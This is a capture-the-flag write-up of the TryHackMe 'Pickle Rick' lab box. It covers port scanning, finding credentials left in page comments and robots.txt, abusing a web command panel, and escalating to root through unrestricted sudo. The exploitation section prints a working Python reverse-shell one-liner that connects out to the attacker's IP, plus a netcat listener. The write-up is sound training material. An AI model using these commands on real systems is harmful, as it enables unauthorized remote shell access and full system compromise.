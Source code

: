# THM - Pickle Rick

#### Ip: 10.10.103.60
#### Name: Pickle Rick
#### Rating: Easy

----------------------------------------------------------------------

![pickle.jpeg](../assets/pickle_rick_assets/pickle.jpeg)

```text
This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.
```

### Enumeration

Lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/Pickle_Rick]
└─$ sudo nmap -p-  --min-rate 10000 10.10.103.60 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-07 15:07 CDT
Nmap scan report for 10.10.103.60
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 8.29 seconds
```

Lets also use the `-sC` and `-sV` flags to use Nmap basuc scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Pickle_Rick]
└─$ sudo nmap -sC -sV -T4 10.10.103.60 -p 22,80    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-07 15:07 CDT
Nmap scan report for 10.10.103.60
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5235f7e6c7c64166d9efe23b67dc765c (RSA)
|   256 d00a4604437517acce7f615384723ce7 (ECDSA)
|_  256 0eb8ff00831db6bb1d5c800b7be0c9c8 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.07 seconds
```

Heading to the sight we see a note from Rick to Morty:

site.png

Checking out the source of the page we find a username left as a comment:

note.png

Cool. Lets also manually check for a robots.txt page while we're here:

robots.png

Ok, not exactly positive what this is. trying to go to http://10.10.103.60/Wubbalubbadubdub we get a Not Found page. 

Lets do some directory fuzzing to see if we can find any other pages:

ferox.png

Cool, looks like we've found a login page. Let's check that out:

login.png

Nice! We were able to login with the found username and used Wubbalubbadubdub for the password.

Interesting, looks like there is a panel to execute commands on the server with. Running `whoami` we see we have execution:

panel.png

Trying to go to access any other materials on the site we get redirected to `/denied.php`

denied.png

Funily enough, checking out the source code of the login page we find another comment:

```text
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```

This looks like Base64 encoded text.

Trying to decode it in the terminal I realize it's been encoded multiple times, so I keep adding additional decoding until I finally get to the clear text:

```text
┌──(ryan㉿kali)-[~/THM/Pickle_Rick]
└─$ echo "Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==" | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d
base64: invalid input
base64: invalid input
rabbit hole
```
Ha- here we are getting trolled by the box creators. 

Looks like we'll need to move on.

Going back to the command panel running `ls -la` shows me some interesting files:

```text
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

Trying to view any of these files using the `cat` command is blocked:

cmd.png

Ok, so there must be some command filtering happing here. Lets try and bypass this by using the panel to get a reverse shell.

### Exploitation

First I'll set up a Netcat listener on my attacking machine and then head over to

From there i can grab a Python reverse shell oneliner and run it:

```text
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.61.45",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

And a second later I get a call back to my listener:

```text
┌──(ryan㉿kali)-[~/THM/Pickle_Rick]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.103.60] 48232
$ whoami
whoami
www-data
$ hostname
hostname
ip-10-10-103-60
$ ls -la
ls -la
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

From here I can answer the first question:

```text
What is the first ingredient that Rick needs?
```

first.png

Looks like there was a clue left behind:

```text
www-data@ip-10-10-103-60:/var/www/html$ cat clue.txt 
Look around the file system for the other ingredient.
```

Poking around the box a bit more we find the second ingredient in rick's `/home` directory:

```text
What is the second ingredient in Rick’s potion?
```

second.png

### Privilege Escalation

Lets try and get root access now. I'll try `sudo -l` to list out any commands I can run with root permissions:

```text
www-data@ip-10-10-103-60:/home/rick$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-103-60.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-103-60.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Wow- looks like we can run whatever we want as sudo. Lets just switch our user to the root user:

```text
www-data@ip-10-10-103-60:/home/rick$ sudo su -
root@ip-10-10-103-60:~# whoami
root
root@ip-10-10-103-60:~# id
uid=0(root) gid=0(root) groups=0(root)
```

And from there we can answer the final question:

```text
What is the last and final ingredient?
```

third.png

Thanks for following along!

-Ryan

------------------------------------------------------------------
